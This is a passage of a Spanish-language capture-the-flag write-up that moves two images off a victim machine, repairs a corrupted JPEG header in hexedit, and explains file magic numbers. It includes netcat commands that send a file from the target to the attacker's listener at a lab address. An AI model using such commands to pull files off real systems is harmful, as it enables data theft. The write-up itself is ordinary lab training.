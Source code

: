 Dentro de la carpeta de `images` tenemos dos imagenes
![[Pasted image 20240906094654.png]]

Nos las transferimos a nuestra maquina, para ello usaremos netcat con el siguiente comando estando en escucha con nuestra maquina
```
nc -lvnp 1234 > oneforall.jpg
```
![[Pasted image 20240906095513.png]]

 Y en la maquina victima
 ```
nc 10.9.0.205 1234 < oneforall.jpg
```
![[Pasted image 20240906095531.png]]

Y ya tendremos los dos ficheros
![[Pasted image 20240906095552.png]]

Si revisamos los ficheros descargados encontramos que `oneforall.jpg` esta mal configurado en comparación con la otra imagen que podemos ver que esta bien y contiene datos
![[Pasted image 20240906102732.png]]

Utilizaremos la herramienta `hexedit`que es un editor hexadecimal que nos permite modificar archivos a nivel binario, para ello la instalamos con el siguiente comando
```
apt install hexedit -y
```
![[Pasted image 20240906102635.png]]

Ahora para modificar un fichero `oneforall.jpg` ejecutamos el siguiente comando
```
hexedit oneforall.jpg
```

Esto es lo que nos aparece al abrir el fichero con hexedit, a la izquierda tenemos el desplazamiento o Offset, que es la posición del archivo, la culumna del centro nos muestra los datos en formato hexadecimal y a la derecha nos muestra los datos en ASCII
![[Pasted image 20240906105333.png]]

# Firma de archivos
Ahora modificaremos la firma de archivos.
Una **firma de archivo** o **magic number** es una secuencia específica de bytes que aparece al principio de un archivo y que identifica su tipo o formato. Estas firmas permiten que los sistemas operativos, herramientas de análisis de archivos, y otras aplicaciones identifiquen correctamente el tipo de archivo, incluso si la extensión (como `.jpg`, `.png`, `.exe`) es incorrecta o ha sido modificada.

## **Ejemplos de firmas de archivo:**
Aquí algunos ejemplos de firmas comunes:
- **JPEG (JPG)**: Los archivos JPEG comienzan con la secuencia `FF D8 FF`.
- **PNG**: Los archivos PNG empiezan con la secuencia `89 50 4E 47` (que corresponde al texto "PNG" en ASCII).
- **PDF**: Los archivos PDF empiezan con la secuencia `25 50 44 46` (que corresponde a "%PDF").
- **ZIP**: Los archivos ZIP comienzan con `50 4B 03 04`.
